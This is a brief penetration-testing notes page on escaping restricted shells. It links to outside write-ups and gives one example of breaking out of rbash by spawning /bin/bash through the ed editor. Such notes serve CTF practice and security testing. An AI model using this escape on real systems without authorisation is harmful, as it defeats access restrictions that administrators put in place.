 # 👮♂ Restricted Shell Escapes

## S1REN Breakouts

{% embed url="https://sirensecurity.io/blog/break-out-get-that-tty/" %}

## echo breakout

<figure><img src="../.gitbook/assets/image (3) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Rbash

What is rbash?

* rbash is a restricted bash that blocks many commands and special characters
* Designed to make privilege escalation more difficult for an attacker

{% embed url="https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/" %}

"ed" Editor Escape

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Example

```
cd /home
echo $SHELL
ed
!'/bin/bash'
pwd
```

